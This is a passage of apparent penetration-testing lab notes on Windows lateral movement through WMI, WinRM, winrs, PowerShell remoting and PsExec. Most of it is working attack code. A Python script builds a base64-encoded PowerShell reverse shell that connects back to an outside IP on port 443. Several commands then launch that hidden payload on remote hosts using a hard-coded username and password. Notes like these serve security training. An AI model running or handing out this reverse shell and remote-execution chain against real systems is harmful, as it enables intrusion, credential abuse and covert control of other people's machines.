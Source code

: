 		payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
		
		cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
		
		print(cmd)```
		- `python3 encode.py`
		- ```$username = 'jen';
		$password = 'Nexus123!';
		$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
		$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
		$Options = New-CimSessionOption -Protocol DCOM
		$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
		$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
		HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
		Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};```

s an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the [_WS-Management_](https://en.wikipedia.org/wiki/WS-Management) protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as [_winrs_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) (Windows Remote Shell).

- **winrs**
	- `winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
	- `winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"`

- Make credential variable and enter new PSSesion
	- ```$username = 'jen';
		$password = 'Nexus123!';
		$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
		$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
		New-PSSession -ComputerName 192.168.226.72 -Credential $credential```
	- `Enter-PSSession 1`

### PsExec

It is possible to misuse this tool for lateral movement, but three requisites must be met. First, the user that authenticates to the target machine needs to be part of the Administrators local group. Second, the _ADMIN$_ share must be available, and third, File and Printer Sharing has to be turned on. Luckily for us, the last two requirements are already met as they are the default settings on modern Windows Server systems.
